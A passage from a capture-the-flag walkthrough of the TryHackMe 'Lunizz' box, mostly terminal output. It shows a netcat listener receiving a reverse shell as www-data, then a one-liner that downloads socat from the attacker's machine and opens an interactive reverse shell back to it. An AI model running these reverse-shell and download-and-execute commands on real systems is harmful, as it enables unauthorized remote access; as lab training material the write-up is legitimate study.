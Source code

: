 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# nc -lnvp 443       
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.60.160] 52918
bash: cannot set terminal process group (995): Inappropriate ioctl for device
bash: no job control in this shell
www-data@lunizz:/var/www/html/whatever$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
lunizz
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:25:e4:9d:4e:89 brd ff:ff:ff:ff:ff:ff
    inet 10.10.60.160/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3370sec preferred_lft 3370sec
    inet6 fe80::25:e4ff:fe9d:4e89/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `www-data`!

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@lunizz:/var/www/html/whatever$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/09/25 01:30:50 socat[52333] N opening character device "/dev/pts/2" for reading and writing
2022/09/25 01:30:50 socat[52333] N listening on AF=2 0.0.0.0:4444
                                                                 2022/09/25 01:30:53 socat[52333] N accepting connection from AF=2 10.10.60.160:37148 on AF=2 10.18.61.134:4444
                                                                    2022/09/25 01:30:53 socat[52333] N starting data transfer loop with FDs [5,5] and [7,7]
                                                www-data@lunizz:/var/www/html/whatever$ 
www-data@lunizz:/var/www/html/whatever$ stty rows 22 columns 107
www-data@lunizz:/var/www/html/whatever$ export TERM=xterm-256color
www-data@lunizz:/var/www/html/whatever$ ^C
www-data@lunizz:/var/www/html/whatever$ 
```

# Privilege Escalation

## www-data to adam
